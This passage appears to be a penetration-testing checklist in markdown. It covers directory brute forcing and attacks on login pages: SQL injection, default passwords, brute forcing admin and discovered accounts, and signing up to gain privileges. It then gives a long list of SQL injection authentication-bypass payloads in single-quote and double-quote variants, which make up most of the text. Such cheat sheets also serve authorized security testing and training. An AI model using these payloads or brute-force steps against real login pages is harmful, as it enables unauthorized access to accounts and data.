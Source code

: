     - [ ] if other directories are discovered, run directory brute force tools on these directories as well
- [ ] try checking multiple types of extensions (txt, php, aspx, etc) while directory brute forcing
- [ ] use wordlists that are specific to the server application (apache, IIS, Tomcat, etc)
### When confronted by a Login Page
- [ ] attempt sql injection
- [ ] if server application is known, try looking for default passwords for this service
- [ ] attempt to brute forcing admin account
    - [ ] if usernames are obtained, try brute forcing these accounts
- [ ] trying signing up to be an authenticated user, which comes with more privileges (some exploits require authentication)
### SQL Injection: Authentication Bypass
```
or 1=1
or 1=1--
or 1=1#
or 1=1/*

# SINGLE QUOTES
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*

# DOUBLE QUOTES
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
```